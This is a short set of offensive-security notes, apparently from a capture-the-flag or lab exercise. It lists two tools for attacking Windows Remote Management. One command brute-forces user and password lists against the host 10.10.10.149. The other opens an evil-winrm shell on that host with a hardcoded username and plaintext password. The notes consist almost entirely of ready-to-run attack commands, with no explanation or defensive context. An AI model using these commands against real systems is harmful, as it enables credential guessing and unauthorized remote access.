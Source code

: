## winrm-brute
https://github.com/mchoji/winrm-brute
Brute force users and passwords
```bash
$ ruby winrm-brute.rb -U users.txt -P pass.txt 10.10.10.149
```

## evil-winrm 
https://github.com/pdelteil/evil-winrm
Shell
```bash
$ ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
```
